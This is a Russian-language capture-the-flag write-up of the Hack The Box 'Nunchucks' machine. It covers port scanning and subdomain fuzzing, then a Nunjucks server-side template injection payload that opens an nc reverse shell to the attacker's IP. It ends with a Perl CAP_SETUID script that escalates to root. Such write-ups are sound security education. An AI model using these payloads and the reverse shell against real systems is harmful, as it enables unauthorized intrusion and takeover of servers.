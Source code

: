 # 🟢 Nunchucks(Linux, Easy)

![](<../.gitbook/assets/1 (1) (1).png>)

### Содержание:

Nunchucks - легкая машина, название которой уже дает отсылку на шаблонизатор, а где шаблонизаторы - там SSTI. Просканировав порты, мы увидим ssh, http и https. Затем профаззим поддомены и найдем тот, который использует шаблонизатор Nunchucks. Загуглив для него вулны, найдем SSTI-эксплоит и получим реверс шелл. Затеем повысим наши привилегии в системе с помощью CAP\_SETUID perl'а.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV 10.10.11.122 -oN nmap
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorse/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
```

![](../.gitbook/assets/2.png)

Как бы я не пытался зарегистрироваться/залогиниться - не получалось. Фаззим поддомены:

```
$ gobuster vhost -u nunchucks.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 40
```

```
Found: store.nunchucks.htb
```

Нашли поддомен, вставляем его в наш конфиг:

```
$ sudo vim /etc/hosts
```

```
10.10.11.122 store.nunchucks.htb nunchucks.htb
```

### Эксплуатируем SSTI в Nunchucks:

![](<../.gitbook/assets/3 (1).png>)

![](<../.gitbook/assets/4 (1) (1) (1).png>)

На поддомене есть `SSTI(Server Side Template Injection)` уязвимость. Дальше `{% raw %}{{7*7}}{% endraw %}` продвинуться не удавалось, но имя машины дает некоторый хинт. `Nunjucks` - это шаблонизатор для `Jinja2`, используемый для разработки веб-приложений на веб-фреймворках `Node.js`, таких как `Express` или `Connect`. Найдя [пэйлоад](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine), пытаемся его эксплуатировать:

```django
{% raw %}{{range.constructor("return global.process.mainModule.require('fs')")()}}{% endraw %}
```

![](<../.gitbook/assets/5 (1) (1).png>)

Чтобы эксплуатировать `RCE`, нужно поставить nc и запустить пэйлоад:

```
$ nc -nlvp 9999
```

Запрос с пэйлоадом в email:

```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=2RciWC895_oUpc9MqIt9QIx1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 189
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close
{
    "email":"{% raw %}{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.36 9999 >/tmp/f')\")()}}{% endraw %}"
}
```

![](../.gitbook/assets/6.png)

### Повышаем привилегии с помощью CAP\_SETUID + Perl

Для того, чтобы просканировать систему на уязвимости и мисконфиги, нужно:

* Скачать linpeas к себе:

```
$ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

* Поднять python-сервер:

```
$ python3 -m http.server
```

Кстати, чтобы узнать свой локальный IP-адрес в VPN можно воспользоваться утилитой ip(ваш IP должен соответствовать интерфейсу tun0):

```
$ ip r | grep tun0
```

```
10.10.16.0/23 dev tun0 proto kernel scope link src 10.10.16.36
```

* На машину, которую нужно проверить, скачиваем linpeas с нашего веб-сервера и запускаем:

```
$ wget 10.10.16.36:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

![](../.gitbook/assets/7.png)

Linpeas запустился и очень много строк про конфиги машины, нам же нужна только эта строка:

![](../.gitbook/assets/8.png)

Тут и содержится уязвимость(CAP\_SETUID): setuid и setgid являются флагами прав доступа в Unix, которые разрешают пользователям запускать исполняемые файлы с правами владельца или группы исполняемого файла. То есть можно без привилегий поменять себе идентификатор(uid) и стать рутом(у рута uid=0). Но это все можно сделать в одну команду и одной строкой, так как тут есть защита AppArmor. Поэтому нужно создать отдельный файл и записать в него вредоносный код:

```
$ touch exploit.pl
$ echo "#!/usr/bin/perl" >> exploit.pl
$ echo "use POSIX qw(setuid);" >> exploit.pl
$ echo "POSIX::setuid(0);" >> exploit.pl
$ echo 'exec "/bin/sh";' >> exploit.pl
$ chmod +x exploit.pl
```

![](../.gitbook/assets/9.png)
